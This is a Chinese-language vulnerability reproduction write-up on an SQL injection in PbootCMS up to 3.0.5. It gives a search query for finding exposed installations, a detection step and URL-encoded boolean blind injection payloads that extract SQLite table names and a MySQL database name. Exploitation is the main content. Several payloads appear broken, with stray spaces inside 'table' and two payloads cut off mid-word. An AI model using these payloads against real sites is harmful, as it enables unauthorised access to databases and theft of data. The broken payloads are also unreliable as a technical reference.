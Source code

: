 # PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS <= 3.0.5
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

本地搭建最新版本,访问首页

![image-20220518155003298](images/202205181550559.png)

我们需要访问一个存在的页面

url中13后加个单引号 `'`，若为执行sql报错相关,则漏洞存在

![image-20220518155017186](images/202205181550238.png)

若显示下图，则漏洞无法利用

![image-20220518155030427](images/202205181550475.png)

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![image-20220518155108672](images/202205181551731.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![image-20220518155128134](images/202205181551193.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a
```

![image-20220518155148056](images/202205181551121.png)

猜解第一个表名称,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi
```

![image-20220518155205342](images/202205181552408.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同